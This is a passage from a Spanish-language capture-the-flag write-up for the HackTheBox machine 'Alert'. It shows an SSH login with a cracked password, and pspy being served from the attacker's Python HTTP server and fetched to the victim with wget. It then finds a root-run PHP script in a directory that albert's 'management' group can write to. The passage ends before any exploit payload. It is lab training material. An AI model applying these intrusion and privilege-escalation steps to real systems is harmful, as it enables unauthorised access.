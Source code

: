 Vamos ahora a intentar conectarnos por ssh como el usuario `albert` con la contraseña que acabamos de encontrar.

```
ssh albert@alert.htb
albert@alert.htb's password: manchesterunited
```

Para la escalada de privilegios vamos a descargar [pspy](https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64) para analyzar los procesos que están corriendo.

Para subirlo a la máquina montaremos un servidor http con `python`.

```
python3 -m http.server 8000
```

Ahora lo descargamos desde la máquina víctima con `wget`.

```
wget 10.10.14.191:8000/pspy64
```

Y lo ejecutamos.

```
./pspy64
```

De entre toda la información que nos reporta la más interesante es la ejecución de `/usr/bin/php -f /opt/website-monitor/monitor.php` como `root`.

```
2025/03/19 01:18:06 CMD: UID=0     PID=956    | /usr/bin/php -S 127.0.0.1:8080 -t /opt/website-monitor
2025/03/19 01:19:01 CMD: UID=0     PID=14686  | /usr/bin/php -f /opt/website-monitor/monitor.php 
```

Vamos a ver si tenemos permisos para editar este archivo o alguna de sus dependencias.

```
ls -l /opt/website-monitor/

drwxrwxr-x 2 root management  4096 Oct 12 04:17 config
drwxrwxr-x 2 root root        4096 Oct 12 00:58 incidents
-rwxrwxr-x 1 root root        5323 Oct 12 01:00 index.php
-rwxrwxr-x 1 root root        1068 Oct 12 00:58 LICENSE
-rwxrwxr-x 1 root root        1452 Oct 12 01:00 monitor.php
drwxrwxrwx 2 root root        4096 Oct 12 01:07 monitors
-rwxrwxr-x 1 root root         104 Oct 12 01:07 monitors.json
-rwxrwxr-x 1 root root       40849 Oct 12 00:58 Parsedown.php
-rwxrwxr-x 1 root root        1657 Oct 12 00:58 README.md
-rwxrwxr-x 1 root root        1918 Oct 12 00:58 style.css
drwxrwxr-x 2 root root        4096 Oct 12 00:58 updates
```

El grupo `management` puede escribir en el directorio config. Vamos a ver si el usuario actual pertenece al grupo `management`.

```
id

uid=1000(albert) gid=1000(albert) groups=1000(albert),1001(management)
```

